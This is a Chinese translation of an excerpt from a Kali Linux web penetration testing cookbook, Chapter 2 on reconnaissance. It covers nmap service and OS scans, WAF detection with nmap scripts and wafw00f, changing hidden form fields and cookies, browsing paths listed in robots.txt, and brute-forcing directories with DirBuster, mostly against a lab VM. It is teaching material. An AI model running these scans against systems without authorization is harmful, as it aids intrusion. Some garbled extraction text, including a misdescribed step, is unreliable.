# Kali Linux Web 渗透测试秘籍






## 致谢

*   **作者/拷贝编辑**: Gilberto Nájera-Gutiérrez, Sneha Singh
*   **审核员/项目协调员**: Gregory Douglas Hill, Nikhil Nair, Nikunj Jadawala, Abhinav Rai
*   **校对员**: Safis Editing
*   **策划编辑**: Julian Ursell
*   **索引员**: Rekha Nair
*   **采购编辑**: Tushar Gupta
*   **设计**: Abhinash Sahu, Usha Iyer
*   **制作协调员**: Manu Joseph, Arun Nadar
*   **内容开发编辑**: Manu Joseph
*   **封面设计**: Manu Joseph
*   **技术编辑**: Pramod Kumavat


## 关于作者

Gilberto Nájera-Gutiérrez 墨西哥顶尖安全公司之一 Sm4rt Security Services 的安全测试团队 (STT)。

他还是攻防安全认证专业人员 (OSCP)、EC-Council 认证安全管理员 (ECSA)，并拥有一门人工智能方向的计算机科学硕士学位。

自 2013 年以来他一直担任渗透测试员，并从高中起就是安全爱好者；他成功地对墨西哥一些大型公司（如政府机构和金融机构）的网络和应用程序进行了渗透测试。

致 Leticia，感谢你的爱、支持和鼓励；没有你，这一切是不可能的。爱你，我的女王！

致我的团队：Daniel, Vanessa, Rafael, Fernando, Carlos, Karen, Juan Carlos, Uriel, Iván 和 Aldo。你们的才华和激情激励我去做这类事情，并不断寻找新的挑战。感谢哥们们，继续加油！


## 关于审核员

Gregory Douglas Hill 是苏格兰 Abertay 大学的一名道德黑客学生，他也为一家专注于安全的独立 Web 应用程序开发商工作。凭借编程和解决问题的经验，加上 Abertay 大学为学生提供的宝贵专业培训，安全已成为他生活中不可或缺的一部分。他撰写了多篇从 IDS 规避到自动化 XSS 模糊的白皮书，并在当地道德黑客协会发表了关于 SQL 注入和社交工程的演讲。

我想感谢我的朋友和家人为本书制作提供的灵感，特别是在我学术负担日益增加的情况下。

Nikunj Jadawala 是 Cigital 的安全顾问。他在安全行业拥有超过 2 年的各种角色经验，包括网络和 Web 应用程序渗透测试，以及计算机取证。

在 Cigital，他与许多财富 250 强企业合作合规、治理、取证项目，进行安全评估和审计。他是一位致力于的安全传教士，为全球的企业、教育机构和政府机构提供持续的安全支持。

我想感谢我的家人在整个写作过程中对我的支持。还要感谢在信息安全领域指导我的朋友，以及在我需要帮助和支持时一直在我身 Cigital 同事们。


Abhinav Rai 一直从事信息安全，并具有应用安全和网络安全经验。他对在不同平台上构建的各种应用程序进行了安全评估。目前担任信息安全分析师。

他完成了计算机科学学位和 IT 基础设施系统与安全的研究生文凭。他还持有通信协议设计与测试的证书。

可以通过 `abhinav.rai.55@gmail.com` 与他联系。


www.PacktPub.com

电子书、优惠及更多。你知道吗 Packt 为出版的每本书都提供电子书版本，并提供 PDF 和 ePub 文件？您可以在 [www.PacktPub.com 以及纸质书](http://www.packtpub.com) 客户升级到电子书版本，您有权获得电子书折扣。请联系 `customercare@packtpub.com` 了解更多详情。

在 [www.PacktPub.com](http://www.packtpub.com)，您还可以阅读免费文章、订阅免费新闻邮件并获取电子书专属折扣。为什么要订阅？全面搜索 Packt 出版的所有。


*   了解虚拟机上的 Web 应用程序 (22)

i


### 从爬取结果识别相关文件和目录


### 使用 John the Ripper 通过字典破解密码哈希值


在本书中，我们将遵循 Web 应用程序渗透测试的全路径，并以易于遵循的逐步分步谱（recipes）的形式，展示如何发现、利用和修复 Web 应用程序及 Web 服务器中的漏洞。


### 第 2 章，侦察，使读者能够实践一些信息收集技术，以获取有关被测试系统、其安装的软件以及目标 Web 应用程序如何构建的情报。

#### vi

#### vii

警告或重要注释出现在这样的框中。
如果你有自己擅长的领域，并且对编写或贡献书籍感兴趣，请参阅 `www.packtpub.com/authors.` 上的作者指南。

## 第 2 章



3. 现在，我们将告诉 `Nmap` 向服务器查询运行的服务版本，并根据此猜测操作系统。

```bash
nmap -sV -O 192.168.56.102
```



4. 我们可以看到我们的 `vulnerable_vm` 运行的是内核为 2.6 的 Linux，带有 `Apache` 2.2.14 Web 服务器、`PHP` 5.3.2 等。

29


[Technet24.ir](http://technet24.ir)

### 侦察

## 工作原理...

`Nmap` 是一个端口扫描器，这意味着它向指定 IP 地址上的若干 TCP 或 UDP 端口发送包并检查是否有响应。如果有，则意味着端口是开放的；因此，该端口上运行着服务。

在第一条命令中，通过 `-sn` 参数，我们指示 `Nmap` 仅检查服务器是否响应 ICMP 请求（或 ping）。我们的服务器响应了，所以它是存活的。

第二个命令是调用 `Nmap` 最简单的方法；它只指定了目标 IP 地址。它的作用是 ping 服务器；如果它响应，`Nmap` 会向 1000 个 TCP 端口列表发送探测，查看哪些端口有响应，然后报告有响应端口的结果。

第三条命令在第二个命令的基础上增加了以下两个任务：

- `-sV` 请求每个找到开放端口的标志（banner）——头部或自标识，这被用作版本号
- `-O` 告诉 `Nmap` 利用从开放端口和版本中收集的信息尝试猜测目标上运行的操作系统

### 更多功能...

使用 `Nmap` 时的其他有用参数是：

- `-sT`：默认情况下，当以 root 用户运行时，`Nmap` 使用一种被称为 SYN 扫描的类型。使用此参数我们强制扫描器执行全连接扫描。它的速度较慢，会在服务器日志中留下记录，但被入侵检测系统检测到的概率较低。
- `-Pn`：如果我们已经知道主机是存活的或不响应 ping，我们可以使用此参数告诉 `Nmap` 跳过 ping 测试并扫描所有指定目标，假设它们在线。
- `-v`：这是详细模式。`Nmap` 将显示更多关于它正在做什么以及获取的响应的信息。此参数可以在同一命令中多次使用：使用得越多，详细程度就越高（即 `-vv` 或 `-v -v -v -v`）。
- `-p N1,N2,…NN`：如果我们想测试特定端口或某些非标准端口，可以使用此参数告诉 `Nmap`，其中 `N1` 到 `Nn` 是我们要扫描的端口号。例如，扫描端口 21、80-90 和 137，参数为 `-p 21,80-90,137`。
- `--script=script_name`：`Nmap` 包含了许多用于漏洞检查、扫描识别、登录测试、命令执行、用户枚举等脚本。使用此参数告诉 `Nmap` 在目标上运行脚本。你可能想查看某些 `Nmap` 脚本的使用：https://nmap.org/nsedoc/scripts/

30


## 第 2 章

### 另另

尽管 `Nmap` 是最流行的，但它并不是唯一的端口扫描器，根据不同的喜好，可能也不是最好的。Kali Linux 中包含一些其他替代方案：

- `unicornscan`
- `hping3`
- `masscan`
- `amap`
- `Metasploit` 扫描模块

### 识别 Web 应用防火墙

Web 应用防火墙 (WAF) 是一种设备或软件，检查发送到 Web 服务器的数据包以识别并拦截可能的恶意包，通常基于签名或正则表达式。

如果未检测到的 WAF 拦截我们的请求或封禁我们的 IP 地址，我们在渗透测试可能会遇到很多问题。在执行渗透测试时，侦察阶段必须包括对 WAF、入侵检测系统 (IDS) 或入侵防御系统 (IPS) 的检测和识别。这是为了采取必要的措施防止拦截。

在本教程中，我们将使用不同的方法结合 Kali Linux 包含的工具，来检测并识别我们与目标之间是否存在 Web 应用防火墙。

## 如何操作...

1. `Nmap` 包含几个脚本来测试 WAF 的存在。让我们在 vulnerable-vm 上尝试一些：


```bash
nmap -p 80,443 --script=http-waf-detect 192.168.56.102
```



31


### 侦察

好的，在此服务器上没有检测到 WAF，因此该服务器上没有 WAF。

2. 现在，让我们在一个实际上有防火墙保护的服务器上尝试相同的命令。

在这里，我们将使用 example.com；不过，你也可以尝试在任何受保护的服务器上进行测试。```bash
nmap -p 80,443 --script=http-waf-detect www.example.com
```



Imperva 是 Web 应用防火墙市场上的领先品牌之一；正如我们在这里看到的，有一个设备正在保护该网站。

3. Nmap 中还有另一个脚本可以帮助我们更精确地识别正在使用的设备。该脚本如下：

```bash
nmap -p 80,443 --script=http-waf-fingerprint www.example.com
```



4. Kali Linux 包含的另一个帮助我们检测和识别 WAF 的工具是 `wafw00f`。假设 www.example.com 是受 WAF 保护的站点：```bash
wafw00f www.example.com
```

32


## 第 2 章



## 工作原理...

WAF 检测通过向服务器发送特定请求并分析响应来实现；例如，在 `http-waf-detect` 的情况下，它会发送一些基础恶意包并比较响应，同时寻找数据包被拦截、拒绝或检测到的指示。`http-waf-fingerprint` 的情况也是如此，但该脚本还会尝试解释该响应，并根据各种 IDS 和 WAF 的已知模式对其进行分类。`wafw00f` 也是如此。

### 查看源代码

查看网页的源代码允许我们理解某些编程逻辑，检测明显的漏洞，并在测试时提供参考，因为我们能够比较测试前后的代码，并利用这种比较来修改我们的下一次尝试。

在本教程中，我们将查看应用程序的源代码并据此得出结论。

## 准备工作

对于本教程，启动 `vulnerable_vm`。

33


### 侦察

## 如何操作...

1. 访问 `http://192.168.56.102`。
2. 选择 `WackoPicko` 应用程序。
3. 在页面上点击右键并选择“查看网页源代码”。将打开一个页面源代码的新窗口：



通过源代码，我们可以发现页面正在使用的库或外部文件，以及链接的去向。此外，如前面的图像所示，此页面有一些隐藏的输入字段。选中的一个是 `MAX_FILE_SIZE`；这意味着，当我们上传文件时，该字段决定了我们正在上传的文件允许的最大大小。因此，如果我们更改了这个值，我们可能可以上传一个比应用程序预期的更大的文件；这代表了一个重要的安全问题。

## 工作原理...

网页的源代码对于发现漏洞和分析应用程序对我们提供的输入的何响应非常有帮助。它还让我们了解应用程序内部是如何运行的，以及它是否使用了任何第三方库或框架。

某些应用程序还包含用 JavaScript 或其他脚本语言编写的输入验证、编码或加密函数。由于这些代码是在浏览器中执行的，我们将通过查看页面源代码对其进行分析；一旦我们看到验证函数，就可以对其进行研究，并发现可能允许我们绕过它或更改结果的安全缺陷。

34


## 第 2 章

### 使用 Firebug 分析并修改基本行为

Firebug 是一个浏览器插件，允许我们分析网页的内部组件，例如表格元素、层叠样式表 (CSS) 类、框架等。它还具有向我们显示 DOM 对象、错误代码以及浏览器与服务器之间请求-响应通信的能力。

在之前的教程中，我们看到了如何查看网页的 HTML 源代码，并发现了一个为文件大小设置默认值的隐藏输入字段。在本教程中，我们将看到如何使用浏览器的调试扩展，具体来说是针对 Firefox 的 Firebug 或 OWASP-Mantra。

## 准备工作

在 `vulnerable_vm` 运行时，访问 `http://192.168.56.102/WackoPicko`。

## 如何操作...

1. 右键点击“Check this file”，然后选择“使用 Firebug 检查元素”。



35


### 侦察

2. 在表单的第一个输入框上有一个 `type="hidden"` 参数；双击 `hidden`。
3. 将 `hidden` 替换为 `text` 并按 *回车*。


4. 现在，双击参数值中的 `30000`。
5. 将参数值改为 `50000`。


6. 现在我们看到一个新的文本框，它是由服务器设置的 `PHPSESSID`。我们刚刚更改了文件大小限制。

36


## 第 2 章



## 工作原理...

一旦服务器接收到网页，就可以通过分析响应来修改其内容。如果页面刷新，响应将再次显示。

Firebug 允许我们修改网页的几乎每个方面。

### 还有更多

Firebug 不仅是一个隐藏输入或更改值的工具，它还有其他非常有用的工具：

- `Console`（控制台）显示加载页面时的错误、警告和其他消息。
- `HTML` 是我们刚刚使用的标签。它以分级方式显示 HTML。
- `CSS` 标签用于查看和修改页面使用的样式。
- 在 `Script` 中，我们可以设置断点并在运行脚本时检查变量值。
- `DOM` 标签显示 DOM 对象及其值。
- `Net` 显示向服务器的请求及其响应、类型、大小、响应时间以及在时间线上的顺序。
- `Cookies` 包含服务器设置的 Cookie 及其值和参数。

37


### 侦察：获取和修改 Cookie

Cookie 是服务器发送到客户端（浏览器）的小信息，用于本地存储与特定用户相关的信息。在现代 Web 应用程序中，Cookie 用于存储用户数据，例如颜色主题配置、对象布局、之前的活动以及对我们更重要的会话标识符。

在本教程中，我们将使用浏览器工具查看 Cookie 的值、它们是如何存储的，以及如何修改它们。

## 准备工作

我们的 `vulnerable_vm` 需要运行。`192.168.56.102` 将作为该机器的 IP 地址，我们将使用 OWASP-Mantra 作为 浏览器。

## 如何操作...

1. 访问 `http://192.168.56.102/WackoPicko`。
2. 在 Mantra 的菜单中，导航到 Tools | Application Auditing | Cookies Manager +。



38


3. 从 `192.168.56.102` 选择 `PHPSESSID` 并点击编辑。
4. 将 `Http Only` 值更改为 `Yes`。



我们刚刚更改的参数 (`Http Only`)告诉浏览器不允许客户端脚本访问此 Cookie。


Cookies Manager+ 是一个浏览器插件，允许我们查看、修改或删除现有的 Cookie，并添加新的 Cookie。由于某些应用程序依赖于存储在这些 Cookie 中的值，攻击者可以利用它们注入恶意模式，可能会更改页面行为，或提供虚假信息以获取更高的权限。

此外，在现代 Web 应用程序中，Session Cookie 经常被使用，并且在登录完成后通常是用户身份识别的唯一来源。这导致了通过替换已激活会话用户的 Cookie 值来冒充合法用户的可能性。

39


[Technet24.ir](http://technet24.ir)

### 侦察

## 利用 robots.txt

在侦察中更进一步一步，我们需要确定网站中是否有任何页面或目录没有链接到普通用户看到的内容。例如，内网的登录页面或内容管理系统（CMS）的管理界面。找到此类站点将极大扩展我们的测试面，并能提供关于应用程序及其基础设施的一些重要线索。

在本教程中，我们将使用 `robots.txt` 文件来发现一些可能没有链接到主程序任何地方的文件和目录。

## 如何操作...

1. 访问 `http://192.168.56.102/vicnum/`。
2. 现在我们在 URL 后面添加 `robots.txt`，我们将看到下面的截图：



该文件告诉搜索引擎，不允许任何浏览器（用户代理）对目录 `jotto` 和 `cgi-bin` 进行索引。然而，这并不意味着我们不能浏览它们。
3. 让我们访问 `http://192.168.56.102/vicnum/cgi-bin/`：



40


## 第 2 章

我们可以点击并直接导航此目录下的任何 Perl 脚本。

4. 让我们访问 `http://192.168.56.102/vicnum/jotto/`：



5. 点击名为 `jotto:` 的文件。你将看到类似于下面截图的内容：



Jotto 是一款关于猜五个字母单词的游戏；这可能是可能答案的列表吗？通过玩游戏来检查它；如果是的话，我们已经破解了这个游戏！

## 工作原理...

`robots.txt` 是 Web 服务器使用的文件，用于告诉搜索引擎应该索引哪些目录或文件，以及哪些是不允许查看的。从攻击者的角度来看，这告诉我们服务器上是否存在一个可以访问但对公众隐藏的目录，这使用了所谓的“通过隐蔽实现安全”（即假设如果不告诉用户某物的存在，他们就不会发现该物存在）。

41


[Technet24.ir](http://technet24.ir)

### 侦察

## 使用 DirBuster 寻找文件和文件夹

DirBuster 是一个通过暴力破解法发现 Web 服务器中现有的文件和目录的工具。我们将在本教程中使用它来搜索特定的文件和目录列表。

## 准备工作

我们将使用包含单词列表的文本文件，让 DirBuster 查找这些单词。创建一个 `dictionary.txt` 文本文件，包含以下内容：

```
info
server-status
server-info
cgi-bin
robots.txt
phpmyadmin
admin
login
```

## 如何操作...

1. 导航到 `Applications | Kali Linux | Web Applications | Web Crawlers | dirbuster`：



42


## 第 2 章

2. 在 DirBuster 窗口中，将目标 URL 设置为 `http://192.168.56.102/`。
3. 将线程数设置为 20。
4. 选择基于列表的暴力破解并点击 `Browse`。
5. 在浏览窗口中，选择我们刚刚创建的文件（`dictionary.txt`）。
6. 取消勾选 `Be Recursive`（递归）选项。
7. 对于本教程，其余选项保持为默认值。
8. 点击 `Start`。

